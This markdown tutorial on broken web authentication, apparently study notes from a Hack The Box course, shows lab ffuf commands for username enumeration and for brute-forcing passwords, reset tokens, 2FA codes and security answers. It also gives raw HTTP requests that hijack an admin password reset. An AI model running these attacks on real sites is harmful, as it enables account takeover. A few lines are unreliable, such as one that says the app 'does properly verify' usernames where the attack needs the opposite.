





- [Broken Authentication](#broken-authentication)
  - [Intro](#intro)
    - [Common Authentication Methods](#common-authentication-methods)
    - [Single-Factor vs Multi-Factor Authentication](#single-factor-vs-multi-factor-authentication)
    - [Knowledge-based Authentication](#knowledge-based-authentication)
    - [Ownership-based Authentication](#ownership-based-authentication)
    - [Inherence-based Authentication](#inherence-based-authentication)
  - [Brute-Force Attacks](#brute-force-attacks)
    - [Enumerating Users](#enumerating-users)
      - [Enumerating Users via Different Error Messages](#enumerating-users-via-different-error-messages)
      - [User Enumeration via Side-Channel Attacks](#user-enumeration-via-side-channel-attacks)
    - [Brute-Forcing Passwords](#brute-forcing-passwords)
    - [Brute-Forcing Password Reset Tokens](#brute-forcing-password-reset-tokens)
      - [Identifying Weak Reset Tokens](#identifying-weak-reset-tokens)
      - [Attacking Weak Reset Tokens](#attacking-weak-reset-tokens)
    - [Brute-Forcing 2FA Codes](#brute-forcing-2fa-codes)
      - [Attacking 2FA](#attacking-2fa)
    - [Weak Brute-Force Protection](#weak-brute-force-protection)
      - [Rate Limits](#rate-limits)
      - [CAPTCHAs](#captchas)
  - [Password Attacks](#password-attacks)
    - [Default Credentials](#default-credentials)
      - [Testing Default Credentials](#testing-default-credentials)
    - [Vulnerable Password Reset](#vulnerable-password-reset)
      - [Guessable Password Reset Questions](#guessable-password-reset-questions)
      - [Manipulating the Reset Request](#manipulating-the-reset-request)

---

# Broken Authentication

## Intro

_**Authentication** is the process of verifying a claim that a system entity or resource has a certain attribute value._<br>
_**Authorization** is an approval that is granted to a system entity or access a system resource._

| Authentication | Authorization |
| -------------- | ------------- |
| determines whether users are who they claim to be | determines what users can and cannot access |
| challenges the user to validate credentials | verifies whether access is allowed through policies and rules |
| usually done before authorization | usually done after successful authentication |
| it usually needs the user's login details | while it needs user's privileges or security levels |
| generally, transmits info through an ID token | generally, transmits info through an Access Token |

The most widespread authentication method in web apps is login forms, where users enter their username and password to prove their identity.

### Common Authentication Methods

| Method | Description |
| ------ | ----------- |
| knowledge-based authentication | relies on something that the user knows to prove their identity (_passwords, passphrases, PINs, etc._) |
| ownership-based authentication | relies on something the user posseses (_ID cards, security tokens, smartphones with authentication apps, etc._) |
| inherence-based authentication | relies on something the user is or does (_fingerprints, facial patterns, voice recognition, etc._) |

### Single-Factor vs Multi-Factor Authentication

Single-factor authentication relies solely on a single method like a password while multi-factor authentication involves multiple authentication methods like a password plus a time-based one-time password.

### Knowledge-based Authentication

... is prevalent and comparatively easy to attack. This authentication method suffers from reliance on static personal information that can be potentially obtained, guessed, or brute-forced.

### Ownership-based Authentication

...(s) are inherently more secure. This is because physical items are more diffcult for attackers to acquire or replicate compared to information that can be phished, guessed or obtained through data breaches. These systems can be vulnerable to physical attacks, such as stealing or cloning the object, as well as cryptographic attacks on the algorithm it uses.

### Inherence-based Authentication

... provides convenience and user-friendliness. Users don't need to remember complex passwords or carry physical tokens; they simply provide biometric data, such as a fingerprint or facial scan, to gain access. This streamlined authentication process enhances user experience and reduces the likelihood of security breaches resulting from weak passwords or stolen tokens. However, inherence-based authentication systems must address concerns regarding privacy, data security, and potential biases in biometric recognition algorithms to ensure widespread adoption and trust among users.

## Brute-Force Attacks

### Enumerating Users

User enumeration vulnerabilities arise when a web application responds differently to registered/valid and invalid inputs for authentication endpoints. User enumeration vulnerabilities frequently occur in functions on the user's name, such a user login, user registration, and password reset. A web app revealing whether a username exists may help a legitimate user identify that they failed to type their username correctly. The same applies to an attacker trying to determine valid usernames.

Unknown user example:


Valid user example:


As you can see, user enumeration can be a security risk that a web application deliberately accepts to provide a service.

#### Enumerating Users via Different Error Messages

To obtain a list of valid users, an attacker typically requires a wordlist of usernames to test. Usernames are often less complicated than passwords. They rarely contain special chars when they are not email addresses. A list of common users allows an attacker to narrow the scope of a brute-force attack or carry out targeted attacks against support employees or users. Also, a common password could be easily sprayed against valid accounts, often leading to a successful account compromise. Further ways of harvesting usernames are crawling a web application or using public information, such as company profiles on social networks.

Invalid user example:


Valid user example:


To exploit this difference in error messages returned:

```bash
d41y@htb[/htb]$ ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"

<SNIP>

[Status: 200, Size: 3271, Words: 754, Lines: 103, Duration: 310ms]
    * FUZZ: consuelo
```

#### User Enumeration via Side-Channel Attacks

Side-channel attacks do not directly target the web application's response but rather extra information that can be obtained or inferred from the response. An example of a side channel is the response timing, the time it takes for the web application's response to reach you. Suppose a web app does database lookups only for valid usernames. In that case, you might be able to measure a difference in the response time and enumerate valid usernames this way, even if the response is the same.

### Brute-Forcing Passwords

After succesfully identifying valid users, password-based authentication relies on the password as a sole measure for authenticating the user. Since users tend to select an easy-to-remember password, attackers may be able to guess or brute-force it.

You can either directly start using a wordlist or, maybe, you're lucky enough to see messages like this when visiting a website:


By using ```grep``` you're able to narrow down the wordlist (_rockyou.txt_) to about 150000 passwords.

```bash
d41y@htb[/htb]$ grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

d41y@htb[/htb]$ wc -l custom_wordlist.txt

151647 custom_wordlist.txt
```

You can now use ```ffuf``` again:

```bash
d41y@htb[/htb]$ ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4764ms]
    * FUZZ: Buttercup1
```

### Brute-Forcing Password Reset Tokens

Many web apps implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

#### Identifying Weak Reset Tokens

Reset Tokens are secret data generated by an application when a user requests a password reset. The user can then change their password by representing the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowlegde of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps.

Reset flow example:


To identify weak reset tokens, you typically need to create an account on the web app, request a password reset token, and then analyze it.

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

The example reset link contains the reset token in the GET-parameter token. In this example the token is ```7351```. Given that the token consists of only a 4-digit number, there can be only 10000 possible values. This allows you to hijack users' accounts by requesting a password reset and then brute-forcing the token.

#### Attacking Weak Reset Tokens

```bash
d41y@htb[/htb]$ seq -w 0 9999 > tokens.txt
d41y@htb[/htb]$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

Assuming that there are users currently in the process of resetting their passwords, you can try to brute-force all active reset tokens. If you want to target a specific user, you should send a password reset request for that user first to create a reset token.

```bash
d41y@htb[/htb]$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

### Brute-Forcing 2FA Codes

2FA provides an additional layer of security to protect user accounts from unauthorized access. Typically, this is achieved by combining knowledge-based authentication with ownership-based authentication. However, 2FA can also be achieved by combining any other two of the major three authentication categories. Therefore, 2FA makes it significantly more difficult for attackers to access an account even if they manage to obtain the user's credentials. By requiring users to provide a second form of authentication, such a a one-time code generated by an authentication app or sent via SMS, 2FA mitigates the risk of unauthorized access. This extra layer of security significantly enhances the overall security posture of an account, reducing the likelihood of successful account breaches.

#### Attacking 2FA

One of the most common 2FA implementations relies on the user's password and a time-based one-time password provided to the user's smartphone by an authentication app or via SMS. These TOTPs typically consist only of digits, making them potentially guessable if the length is insufficient and the web app does not implement measures against successive submission of incorrect TOTPs.



In this example, the TOTP is passed in the ```opt``` POST parameter, and you also need to specify the session token in the ```PHPSESSID```.

To attack:

```bash
d41y@htb[/htb]$ seq -w 0 9999 > tokens.txt
d41y@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 648ms]
    * FUZZ: 6513
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 635ms]
    * FUZZ: 6514

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
    * FUZZ: 9999
```

### Weak Brute-Force Protection

#### Rate Limits

Rate limiting is a crucial technique employed in software development and network management to control the rate of incoming requests to a system or API. Its primary purpose is to prevent servers from being overwhelmed by too many requests at once, prevent system downtime, and prevent brute-force attacks. By limiting the number of requests allowed within a specified time frame, rate limiting helps maintain stability and ensures fair usage of resources for all users. It safeguards against abuse, such as DoS attacks or excessive usage by individual clients, by enforcing a maximum threshold on the frequency of requests.

When an attacker conducts a brute-force attack and hits the rate limit, the attack will be thwarted. A rate limit typically increments the response time iteratively until a brute-force attack becomes infeasible or blocks the attacker from accessing the service for a certain amount of time.

A rate limit should only be enforced on an attacker, not regular users, to prevent Dos scenarios. Many rate limit implementations rely on the IP address to identify the attacker. However, in a real-world scenario, obtaining the attacker's IP address might not always be as simple as it seems. For instance, if there are middleboxes such as reverse proxies, load balancers, or web caches, a request's source IP address will belong to the middelbox, not the attacker. Thus, some rate limits rely on HTTP headers such as ```X-Forwarded-For``` to otain the actual source IP address.

However, this causes an issue as an attacker can set arbitrary HTTP headers in request, bypassing the rate limit entirely. This enables an attacker to conduct a brute-force attack by randomizing the ```X-Forwarded-For``` header in each HTTP request to avoid the rate limit.

#### CAPTCHAs

A **Completely Automated Public Turing test to tell Computers and Humans Apart (CAPTCHA)** is a security measure to prevent bots from submitting requests. By forcing humans to make requests instead of bots or scripts, brute-force attacks become a manual task, making them infeasible in most cases. CAPTCHAs typically present challenges that are easy for humans to solve but difficult for bots, such as identifying distorted text, selecting particular objects from images, or solving simple puzzles. By requiring users to complete these challenges before accessing certain features or submitting forms, CAPTCHAs help prevent automated scripts from performing actions that could be harmful, such as spamming forums, creating fake accounts, or launching brute-force attacks on the login pages. While CAPTCHAs serve an essential purpose in deterring automated abuse, they can also present usability challenges for some users, particularly those with visual impairments or specific cognitive disabilities.

From a security perspective, it is essential not to reveal a CAPTCHA's solution in the response.

Additionally, tools and browser extensions to solve CAPTCHAs automatically are rising. Many open-source CAPTCHA solvers can be found. In particular, the rise of AI-driven tools provides CAPTCHA-solving capabilities by utilizing powerful image recognition or voice recognition machine learning models.

## Password Attacks

### Default Credentials

Many web apps are set up with default credentials to allow accessing it after installation. However, these credentials need to be changed after the initial setup of the web application; otherwise, they provide an easy way for attackers to obtain authenticated access.

#### Testing Default Credentials

Many platforms provide lists of default credentials for a wide variety of web apps. Such an example is the web database maintained by [CIRT.net](https://www.cirt.net/passwords). For instance, if you identified a Cisco device during a penetration test, you can search the database for default credentials for Cisco devices.

Other lists:

- [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials)
- [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master)

### Vulnerable Password Reset

#### Guessable Password Reset Questions

Often web apps authenticate users who have lost their passwords by requesting that they answer one or multiple security questions. During registration, users provide answers to predefined and generic security questions, disallowing users from entering custom ones. Therefore, within the same web app, the security question of all users will be the same, allowing attackers to abuse them.

Assuming you found such functionality on a target website, you should try abusing it to bypass authentication, Often, the weak link in a question-based password reset functionality is the predictability of the answers. It is common to find questions like the following:

- What is your mother's maiden name?
- What city were you born in?

While these questions seem tied to the individual user, they can often be obtained through OSINT or guessed, given a sufficient number of attempts, i.e., a lack of brute-force protection.

'What city were you born in?' example:

1. get a [wordlist](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv)
2. analyze request and response



3. ffuf

```bash
d41y@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

#### Manipulating the Reset Request

Another instance of a flawed password reset logic occurs when a user can manipulate a potentially hidden parameter to reset the password of a different account.

Consider the following password reset flow:



Use the demo account creds:

```bash
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

Afterwards, supply the response to the security question:



Supplying the security response 'London' results in the following request:

```bash
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```

The username is contained in the form as a hidden parameter and sent along with the security response. Now, you can reset the user's password:



The final request looks like this:

```bash
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=htb-stdnt
```

Like in the previous request, the request contains the username in a separate POST parameter. Suppose the web app does properly verify that the usernames in both requests match. In that case, you can skip the security question or supply the answer to your security question and then set the password of an entirely different account. For instance, you can change the admin user's password by manipulating the ```username``` parameter of the password reset request:

```bash
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=admin
```

To prevent this vuln, keeping a consistent state during the entire password reset process is essential. Resetting an account's password is a sensitive process where minor implementation flaws or logic bugs can enable an attacker to take over other user's accounts. As such, you should investigate the password reset functionality of any web app closely and keep an eye out for potential security issues.